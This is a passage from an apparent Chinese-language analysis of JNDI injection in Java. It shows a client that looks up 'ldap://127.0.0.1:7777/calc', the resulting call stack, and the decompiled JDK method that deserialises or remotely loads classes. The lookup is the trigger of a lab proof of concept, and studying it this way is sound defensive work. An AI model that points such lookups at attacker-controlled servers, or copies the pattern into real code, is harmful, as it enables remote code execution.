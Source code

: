 客户端

```java
package JNDI;

import javax.naming.InitialContext;

public class ldap_client191 {
    public static void main(String[] args) throws Exception{
        Object object=new InitialContext().lookup("ldap://127.0.0.1:7777/calc");
    }
}
```

调用栈如下：

```java
deserializeObject:532, Obj (com.sun.jndi.ldap)
decodeObject:239, Obj (com.sun.jndi.ldap)
c_lookup:1051, LdapCtx (com.sun.jndi.ldap)
p_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)
lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)
lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)
lookup:417, InitialContext (javax.naming)
main:7, ldap_client191(JNDI)
```

跟进com.sun.jndi.ldap.Obj#decodeObject

```java
static Object decodeObject(Attributes var0) throws NamingException {
    String[] var2 = getCodebases(var0.get(JAVA_ATTRIBUTES[4]));

    try {
        Attribute var1;
        if ((var1 = var0.get(JAVA_ATTRIBUTES[1])) != null) {
            ClassLoader var3 = helper.getURLClassLoader(var2);
            return deserializeObject((byte[])((byte[])var1.get()), var3);
        } else if ((var1 = var0.get(JAVA_ATTRIBUTES[7])) != null) {
            return decodeRmiObject((String)var0.get(JAVA_ATTRIBUTES[2]).get(), (String)var1.get(), var2);
        } else {
            var1 = var0.get(JAVA_ATTRIBUTES[0]);
            return var1 == null || !var1.contains(JAVA_OBJECT_CLASSES[2]) && !var1.contains(JAVA_OBJECT_CLASSES_LOWER[2]) ? null : decodeReference(var0, var2);
        }
    } catch (IOException var5) {
        NamingException var4 = new NamingException();
        var4.setRootCause(var5);
        throw var4;
    }
}
```
